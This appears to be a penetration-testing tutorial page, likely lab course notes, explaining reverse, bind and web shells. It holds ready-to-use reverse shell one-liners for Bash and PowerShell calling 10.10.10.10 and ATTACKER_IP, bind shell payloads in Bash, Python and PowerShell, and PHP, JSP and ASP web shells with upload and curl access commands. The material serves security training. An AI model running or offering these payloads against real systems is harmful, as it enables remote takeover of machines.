

---
layout:
  width: wide
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: false
  tags:
    visible: true
---

# Types of Shells

There are three main types of shells: Reverse Shell, Bind Shell, and Web Shell. Each of these shells has a different method of communication with us for accepting and executing our commands.

| Type of Shell   | Method of Communication                                                                                                     |
| --------------- | --------------------------------------------------------------------------------------------------------------------------- |
| `Reverse Shell` | Connects back to our system and gives us control through a reverse connection.                                              |
| `Bind Shell`    | Waits for us to connect to it and gives us control once we do.                                                              |
| `Web Shell`     | Communicates through a web server, accepts our commands through HTTP parameters, executes them, and prints back the output. |

***

## Reverse Shell

A **reverse shell** is a remote command execution technique in which the **target (victim) machine initiates an outbound network connection** to an **attacker-controlled host**, and upon connection, **redirects its standard input, output, and error streams (STDIN/STDOUT/STDERR)** to that remote host, allowing the attacker to execute commands interactively on the target system.

**Key technical properties:**

* Connection direction: **Target → Attacker**
* Network behavior: Outbound connection (often bypasses firewalls/NAT)
* Transport: Commonly TCP (also UDP, HTTP, HTTPS, WebSockets)
* Privilege level: Inherits the privileges of the exploited process
* Use case: Post-exploitation command-and-control (C2)

#### _Connection direction:_

* Victim → Attacker

### How it works

1.  Attacker starts a listener:

    ```bash
    nc -lvnp 4444
    ```
2.  Victim executes a payload like:

    ```bash
    bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
    ```
3. Victim initiates the connection.
4. Attacker receives a shell.

The flags we are using are the following:

| Flag      | Description                                                                         |
| --------- | ----------------------------------------------------------------------------------- |
| `-l`      | Listen mode, to wait for a connection to connect to us.                             |
| `-v`      | Verbose mode, so that we know when we receive a connection.                         |
| `-n`      | Disable DNS resolution and only connect from/to IPs, to speed up the connection.    |
| `-p 1234` | Port number `netcat` is listening on, and the reverse connection should be sent to. |

### **Reverse Shell Command**

The command we execute depends on what operating system the compromised host runs on, i.e., Linux or Windows, and what applications and commands we can access. The [Payload All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/) page has a comprehensive list of reverse shell commands we can use that cover a wide range of options depending on our compromised host.

Certain reverse shell commands are more reliable than others and can usually be attempted to get a reverse connection. The below commands are reliable commands we can use to get a reverse connection, for `bash` on Linux compromised hosts and `Powershell` on Windows compromised hosts:

For Bash:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

For Bash:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

For PowerShell:

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

Once we do, we should receive a connection in our `netcat` listener:

```bash
nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

***

## Bind Shell

A **bind shell** is a remote command execution technique in which the **target (victim) machine opens and listens on a local network port**, binds a shell process to that port, and **accepts inbound connections** from an attacker, granting interactive command execution once a connection is established.

**Key technical properties:**

* Connection direction: **Attacker → Target**
* Network behavior: Inbound connection required
* Transport: Typically TCP
* Dependency: Requires an open/listening port and reachable network path
* Use case: Direct access when inbound connections are allowed

#### _Connection direction:_

* Attacker → Victim

#### How it works

1.  Victim runs:

    ```bash
    nc -lvnp 4444 -e /bin/bash
    ```
2. Victim listens on port `4444`
3.  Attacker connects:

    ```bash
    nc VICTIM_IP 4444
    ```
4. Attacker gets a shell

### **Bind Shell Command**

Once again, we can utilize [Payload All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/) to find a proper command to start our bind shell.

> Note: we will start a listening connection on port '1234' on the remote host, with IP '0.0.0.0' so that we can connect to it from anywhere.

The following are reliable commands we can use to start a bind shell:

For Bash:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

For Python:

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

For PowerShell:

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

***

## **Upgrading TTY**

Once we connect to a shell through Netcat, we will notice that we can only type commands or backspace, but we cannot move the text cursor left or right to edit our commands, nor can we go up and down to access the command history. To be able to do that, we will need to upgrade our TTY. This can be achieved by mapping our terminal TTY with the remote TTY.

There are multiple methods to do this. For our purposes, we will use the `python/stty` method. In our `netcat` shell, we will use the following command to use python to upgrade the type of our shell to a full TTY:

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

After we run this command, we will hit `ctrl+z` to background our shell and get back on our local terminal, and input the following `stty` command:

```bash
www-data@remotehost$ ^Z

SubhaDip03@htb[/htb]$ stty raw -echo
SubhaDip03@htb[/htb]$ fg

[Enter]
[Enter]
www-data@remotehost$
```

Once we hit `fg`, it will bring back our `netcat` shell to the foreground. At this point, the terminal will show a blank line. We can hit `enter` again to get back to our shell or input `reset` and hit enter to bring it back. At this point, we would have a fully working TTY shell with command history and everything else.

We may notice that our shell does not cover the entire terminal. To fix this, we need to figure out a few variables. We can open another terminal window on our system, maximize the windows or use any size we want, and then input the following commands to get our variables:

Types of Shells

```bash
SubhaDip03@htb[/htb]$ echo $TERM

xterm-256color
```

Types of Shells

```bash
SubhaDip03@htb[/htb]$ stty size

67 318
```

The first command showed us the `TERM` variable, and the second shows us the values for `rows` and `columns`, respectively. Now that we have our variables, we can go back to our `netcat` shell and use the following command to correct them:

Types of Shells

```bash
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```

Once we do that, we should have a `netcat` shell that uses the terminal's full features, just like an SSH connection.

### Netcat Shell Stabilization:

```bash
sudo nc -lnvp <PORT>
python3 -c 'import pty;pty.spawn("/bin/bash")'
export  TERM=xterm
## Press CTRL+Z to background the process.
stty raw -echo; fg
```

> **Note:** If the shell is loss or dies, any input in your own (local) terminal will not be visible (as a result of having disable terminal echo). To fix this type `reset` and press Enter.

Another useful technique **(It is useful for getting reverse shell from Windows):**

```bash
sudo apt install rlwrap
rlwrap nc -lnvp <PORT>
## Press CTRL+Z to background the process.
stty raw -echo; fg
```

***

## Web Shell

The final type of shell we have is a `Web Shell`. A `Web Shell` is typically a web script, i.e., `PHP` or `ASPX`, that accepts our command through HTTP request parameters such as `GET` or `POST` request parameters, executes our command, and prints its output back on the web page.

**Writing a Web Shell**

First of all, we need to write our web shell that would take our command through a `GET` request, execute it, and print its output back. A web shell script is typically a one-liner that is very short and can be memorized easily. The following are some common short web shell scripts for common web languages:

PHP Web Shell:

```php
<?php system($_REQUEST["cmd"]); ?>
```

JSP Web Shell:

```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

ASP Web Shell:

```
<% eval request("cmd") %>
```

After creating a web shell then upload the file or payload into target web root directory by file upload feature.

The following are the default webroots for common web servers:

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| `Apache`   | /var/www/html/         |
| `Nginx`    | /usr/local/nginx/html/ |
| `IIS`      | c:\inetpub\wwwroot\\   |
| `XAMPP`    | C:\xampp\htdocs\\      |

If we have remote access we can upload the shell by following:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

**Accessing Web Shell**

Once we write our web shell, we can either access it through a browser or by using `cURL`. We can visit the `shell.php` page on the compromised website, and use `?cmd=id` to execute the `id` command:

<figure><figcaption></figcaption></figure>

Another option is to use `cURL`:

```bash
SubhaDip03@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
